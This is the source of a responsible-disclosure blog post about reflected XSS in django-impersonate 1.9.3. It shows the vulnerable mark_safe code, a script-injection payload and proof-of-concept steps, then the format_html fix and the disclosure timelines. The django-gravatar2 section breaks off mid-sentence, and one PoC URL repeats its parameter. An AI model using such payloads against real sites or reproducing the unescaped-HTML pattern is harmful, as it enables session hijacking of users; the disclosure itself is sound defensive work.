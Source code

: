 .. title: XSS in django-impersonate 1.9.3 and django-gravatar2 1.4.4
.. date: 2025-02-08
.. category: security, python, django
.. tags: security, python, django, xss
.. description: Details about two cross-site scripting vulnerabilities that I reported to django-impersonate and django-gravatar2.

This post details two cross-site scripting (XSS) vulnerabilities I discovered in `django-impersonate <https://pypi.org/project/django-impersonate/>`__,
and `django-gravatar2 <https://pypi.org/project/django-gravatar2/>`__.
I'm writing about them together because they share the same vulnerability,
and are similar in other aspects that I'll explain below.

Background
----------

At `Read the Docs <https://about.readthedocs.com/>`__, we use both packages.
While waiting for my PRs to be reviewed, and taking a break from coding,
I decided to do a quick security audit of some of our dependencies,
since both packages have a relatively small codebase,
they were good candidates for a quick review.

django-impersonate
------------------

`django-impersonate <https://pypi.org/project/django-impersonate/>`__ allows you to impersonate other users,
really useful for debugging and support.

The vulnerability
~~~~~~~~~~~~~~~~~

After grepping the codebase for common vulnerable patterns,
I found `this line of code <https://hg.code.netlandish.com/~petersanchez/django-impersonate/browse/impersonate/helpers.py?rev=fa5d1a703960#L28>`__ that caught my attention:

.. code-block:: python

   def get_redir_field(request):
       redirect_field_name = settings.REDIRECT_FIELD_NAME
       if redirect_field_name:
           nextval = request.GET.get(redirect_field_name, None)
           if nextval:
               return mark_safe(
                  u'<input type="hidden" name="{0}" value="{1}"/>'.format(
                     redirect_field_name, nextval,
                  )
               )
       return u''

You can see that the application is building an HTML input field with the value of a query parameter (if the ``IMPERSONATE["REDIRECT_FIELD_NAME"]`` setting is defined),
and marking it as safe with `mark_safe <https://docs.djangoproject.com/en/4.2/ref/utils/#django.utils.safestring.mark_safe>`__
(Django won't escape it when including it in a template).
The problem arises as the query parameter is controlled by the user, and isn't escaped before being included in the string.

Exploitation
~~~~~~~~~~~~

Identified the vulnerable code, the next step was to find a way to exploit it.
Searching for the usage of the `get_redir_field` function,
I found it was used in two views related to listing users:

- `/impersonate/views.py:106 (list_users) <https://hg.code.netlandish.com/~petersanchez/django-impersonate/browse/impersonate/views.py?rev=ed7f09b3bb9f2168888c15562e29471ea82373c2#L106>`__
- `/impersonate/views.py:134 (search_users) <https://hg.code.netlandish.com/~petersanchez/django-impersonate/browse/impersonate/views.py?rev=ed7f09b3bb9f2168888c15562e29471ea82373c2#L134>`__

But only the `template <https://hg.code.netlandish.com/~petersanchez/django-impersonate/browse/impersonate/templates/impersonate/search_users.html?rev=ed7f09b3bb9f2168888c15562e29471ea82373c2#L11>`__
rendered from the ``search_users`` view includes the result of the `get_redir_field` function.

.. code-block:: python

   # impersonate/views.py (search_users)
   return render(
       request,
       template,
       {
           'users': users,
           'paginator': paginator,
           'page': page,
           'page_number': page_number,
           'query': query,
           'redirect': get_redir_arg(request),
           'redirect_field': get_redir_field(request),
       },
   )

.. code-block:: html

   <!-- impersonate/templates/impersonate/search_users.html -->
   <form action="{% url 'impersonate-search' %}" method="GET">
   Enter Search Query:<br />
   <input type="text" name="q" value="{% if query %}{{ query }}{% endif %}"><br />
   {{redirect_field}}
   <input type="submit" value="Search"><br />
   </form>

Assuming the application defined the ``IMPERSONATE["REDIRECT_FIELD_NAME"]`` setting as ``next``,
the URL used to exploit the vulnerability would be ``/impersonate/search/?next={payload}``.
Where ``{payload}`` can be:

.. code-block:: html

   "><script>alert(document.domain)</script><input type="hidden

What this does is:

- Uses a ``"`` to close the ``value`` attribute.
- Injects a script that shows an alert with the current domain.
- Opens a new tag so the rest of the HTML is not shown as broken.

The payload injected into the template would look like this:

.. code-block:: html

   <input type="hidden" name="next" value=""><script>alert(document.domain)</script><input type="hidden"/>

Proof of concept
~~~~~~~~~~~~~~~~

I created a `proof of concept <https://github.com/stsewd/poc-xss-django-impersonate>`__ to demonstrate the vulnerability, so you can see it in action,
you just need to have Python and `uv <https://docs.astral.sh/uv/getting-started/installation/>`__ installed:

It consists of a simple Django project with ``django-impersonate==1.9.3`` installed,
with the ``IMPERSONATE["REDIRECT_FIELD_NAME"]`` setting defined as ``next``.

.. code-block:: bash

   $ git clone https://github.com/stsewd/poc-xss-django-impersonate
   $ cd poc-xss-django-impersonate
   $ uv run manage.py migrate
   # Create a user to log into the application.
   $ uv run manage.py createsuperuser
   $ uv run manage.py runserver

- Go to ``http://127.0.0.1:8000/admin/login/``
- Log in with the user you created
- Go to ``http://127.0.0.1:8000/impersonate/search/?next=?next="><script>alert(document.domain)</script><input type="hidden``
- A popup with the domain of the page should appear

Showing an alert is just a simple example,
but an attacker can execute any JavaScript code in the context of the user's session.

Mitigation
~~~~~~~~~~

You should never use ``mark_safe`` with user-controlled content,
if you need to build HTML with user-controlled data outside of a template,
you can use the `format_html <https://docs.djangoproject.com/en/4.2/ref/utils/#django.utils.html.format_html>`__ function,
as you can see in the two commits that fixed the vulnerability:
`06991a735f29 <https://hg.code.netlandish.com/~petersanchez/django-impersonate/rev/06991a735f290884eec08effb3fa31ed45cc26e5>`__,
`33cb8c77262a <https://hg.code.netlandish.com/~petersanchez/django-impersonate/rev/33cb8c77262a474869ab94bcb82c5446baf3c228>`__.

Timeline
~~~~~~~~

- **11/06/2024**: Found and reported the vulnerability to the maintainer.
- **13/06/2024**: Maintainer replied and confirmed the vulnerability.
- **14/06/2024**: Maintainer released version 1.9.4 with the fix.

django-gravatar2
----------------

`django-gravatar2 <https://pypi.org/project/django-gravatar2/>`__ allows you to integrate Gravatar

Timeline
~~~~~~~~

- **21/06/2024**: Found and reported the vulnerability to the maintainer.
- **21/06/2024**: Maintainer replied and confirmed the vulnerability.
- **29/08/2024**: Maintainer released version 1.4.5 with the fix.

More in common than you think
-----------------------------

Apart from sharing the same vulnerability, there are other similarities between the two packages:

- Widely used packages.
  At the time of writing, `django-impersonate had 220K downloads in the last month <https://pypistats.org/packages/django-impersonate>`__,
  and `django-gravatar2 had 32K downloads in the last month <https://pypistats.org/packages/django-gravatar2>`__.
- Mostly maintained by a single person.
- Not activily maintained.

While the functionality that both packages provide is very specific,
they may be considered complete and stable without the need for active development.
But as with any software, there is always room for improvement,
or updates to keep up with the latest versions of Python and Django.

If you or your company use these packages,
please consider contributing to them in any way you can.
Another thing these packages have in common is that they are looking for maintainers,
so if you have the time and knowledge, consider helping them.

Acknowledgements
----------------

- Thanks to `Peter Sanchez <https://petersanchez.com/>`__ (maintainer of django-impersonate),
  and `Tristan Waddington <https://github.com/twaddington>`__ (maintainer of django-gravatar2)
  for their quick responses and fixes.
- It's also great I have the support at Read the Docs to spend part of my work time on security audits on packages we use.
  Even if the vulnerabilities don't affect our systems directly,
  it's nice to have the chance to give back to the community.
